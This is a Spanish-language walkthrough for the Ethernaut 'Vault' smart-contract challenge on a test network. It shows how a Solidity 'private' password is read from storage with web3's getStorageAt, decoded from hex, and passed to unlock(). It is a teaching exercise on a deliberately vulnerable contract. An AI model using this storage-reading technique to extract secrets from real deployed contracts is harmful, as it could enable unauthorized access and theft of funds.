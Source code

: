 # Vault

> Estas son las instrucciones en las que se basan este vídeo:

<p align="center">
  <a href="https://www.youtube.com/watch?v=QeXQhAU5TnM">
    <img src="https://img.youtube.com/vi/QeXQhAU5TnM/hqdefault.jpg" alt="Link al video de Youtube">
  </a>
</p>

En este nivel lo único que tenemos que hacer es desbloquear la caja fuerte.

Vamos a [crear](https://sepolia.etherscan.io/tx/0x0088cc8efb0eb2c5c8525b5e8fc87753486b9224c23d02c0fc11252461eec4bf) una nueva instancia del contrato confirmando la transacción en nuestra billetera de `MetaMask`. Mientras se despliega, vamos a analizar el contrato.

## Análisis

En este contrato, podemos ver que primero tenemos una variable booleana que indica si está bloqueado o no y otra variable **PRIVADA** que es la contraseña.

En el `constructor`, se establece la contraseña y el estado cambia a bloqueada.

Después, solo tenemos una función que nos permitirá desbloquear la bóveda si introducimos la contraseña correcta.

Simplemente, tenemos que averiguar la contraseña para completar este nivel.

## Solución

Si investigamos un poco acerca de la [visibilidad](https://docs.soliditylang.org/en/latest/cheatsheet.html#function-visibility-specifiers) de las variables y funciones en Solidity, podemos ver todos los tipos y en específico private indica que solo es visible en el contrato actual, no dice nada acerca de si se puede leer o no los datos.

Pero sabemos que todos los datos almacenados en un `Smart Contract` pueden ser leídos ya que están almacenados en la `Blockchain`.

Además, hay varias [formas](https://solidity-by-example.org/hacks/accessing-private-data/) de acceder a los datos privados de un contrato inteligente usando librerías externas como [web3](https://docs.web3js.org/).

Por último, tenemos que entender como funciona el [almacenamiento](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html#layout-of-state-variables-in-storage) de las variables en `Solidity`:

- Hay 2 elevado a la 256 _slots_ de memoria
- Cada slot tiene 32 _bytes_ de almacenamiento
- Los datos se guardan en el orden de declaración del contrato empezando desde el indice cero

Es decir, en el slot 0 está la variable `locked` y en el slot 1 la variable `password`.

## Ataque

Antes de comenzar, vamos a comprobar que la caja fuerte está bloqueada:

```jsx
> await contract.locked()
true
```

Ahora que hemos entendido todo, vamos a utilizar la siguiente función de la librería [web3](https://web3js.org/) para ver el contenido de la variable que se encuentra en el `slot` 1 de la instancia del contrato:

```jsx
> await web3.eth.getStorageAt(instance, 1)
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
```

Nos devolverá la contraseña codificada en hexadecimal, si queremos verla en texto plano podemos utilizar esta otra función de `web3`:

```jsx
> await web3.utils.hexToAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29");
'A very strong secret password :)'
```

Por último, ahora que sabemos la contraseña para desbloquear la bóveda, vamos a llamar a la función [unlock](https://sepolia.etherscan.io/tx/0x4067e61519d38934bec6b47468784b9552196a9d22c64b24e9c372616a08a116) pasando como parámetro la contraseña en hexadecimal.

```jsx
> await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```

Aceptamos la transacción desde la billetera de `MetaMask` y esperamos a que se confirme en la `blockchain`.

Cuándo se haya confirmado, podemos comprobar si la caja fuerte sigue bloqueada:

```jsx
> await contract.locked()
false
```

Como ya no está bloqueada, vamos a [entregar](https://sepolia.etherscan.io/tx/0x4fb800c8aeb8c4d25ca349a241d480881ec9b08fe52d8eceeef6391de91e99c7) este nivel!

_Ethernaut_, nos recuerda que marcando una variable como `private` **solo previene que otros contratos accedan a ella, todas las variables sean lo que sean son accesibles públicamente**.
